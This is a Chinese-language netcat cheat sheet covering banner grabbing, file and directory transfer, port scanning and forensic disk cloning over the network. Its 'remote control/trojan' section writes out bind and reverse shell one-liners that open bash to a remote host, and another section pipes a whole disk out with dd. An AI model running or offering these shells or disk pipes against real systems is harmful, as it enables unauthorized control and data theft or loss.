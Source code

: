 NC-NETCAT
======================================================================

网络工具中的瑞士军刀

1. telnet/获取banner信息
------------------------------------------------------------

作为客户端使用

::
   nv -vn <host_ip> <port>
   nc -vn 1.1.1.1 110

2. 传输文本信息
------------------------------------------------------------

* 作为客户端使用 ::

  nc -nv <server_ip> <port>
  ls -l | nc -nv <server_ip> <port>

* 作为服务端使用 ::

  nc -l -p <port>

应用场景: **电子取证**
  #. 取证机器启动服务器监听 `nc -l -p 4444`
  #. 被取证端启动客户端， 将收集到的文本信息传输给取证机器
     ``ls -l | nc -nv 172.31.225.210 4444``





3. 传输文件/目录
------------------------------------------------------------

#. 传输文件

   两种应用场景: 文件的侦听端口和传输方向
   
   A: nc -lp 333 > 1.mp4
   B: nc -nv host_A_ip < 1.mp4 -q 1
   
   A: nc -lp 333 < 1.mp4 -q 1
   B: nc -nv host_A_ip 333 > 1.mp4
   
   注: ``-q 1`` 传输完成 1 秒后, 关闭连接

#. 传输目录(结合其它命令)

   A: tar -cvf - music/ | nc -lp 333 -q 1
   B: nc -nv 1.1.1.1 333 | tar -xvf -

#. 加密传文件

   A: nc -lp 333 | mcrypt --flush -Fbqd -a rijndael-256 -m ecb > 1.mp4
   B: mcrpyt --flush -Fbq -a rijndael-256 -m ecb < a.mp4 | nc -nv 1.1.1.1 333 -q 1

4. 流媒体服务器
------------------------------------------------------------

流媒体服务端 A: cat 1.mp4 | nc -lp 333
流媒体客户端 B: nc -nv 1.1.1.1 333 | mplayer -vo x11 -cache 3000 -

5. 端口扫描
------------------------------------------------------------

#. nc -vnz 1.1.1.1 1-65535
#. nc -vnzu 1.1.1.1 1-1024
   默认以 TCP 进行探测, -u 是以 UDP 进行探测(不太准确)

6. 远程克隆硬盘
------------------------------------------------------------

远程电子取证, 可以将目标服务器硬盘远程复制, 或者内存

#. A: nc -lp 333 | dd of=/dev/sda
#. B: dd if=/dev/sda | nc -nv 1.1.1.1 333 -q 1

7. 远程控制/木马
------------------------------------------------------------
两个方向的控制类比于, 主动控制和被动控制
#. 正向
   A: nc -lp 333 -c bash
   B: nc 1.1.1.1 333

#. 反向
   A: nc -lp 333
   B: nc 1.1.1.1 333 -c bash

注: Windows 用户把 bash 改成 cmd; 打开了bash的端将成为被控制端;

8. 增加的nc Ncat
------------------------------------------------------------

#. nc 缺乏加密和身份验证的能力
#. ncat 包含于 nmap 工具包中, ncat 比 nc 多出了安全验证能力;
#. 案例: 限制基于源IP地址的连接 ::
     A: ncat -c bash --allow 172.31.225.75 -vnl 333 --ssl
        --allow 仅允许 172.31.225.75 连接
     B: ncat -nv 172.31.225.72 333 --ssl

#. 不同系统/平台的nc参数功能不尽相同

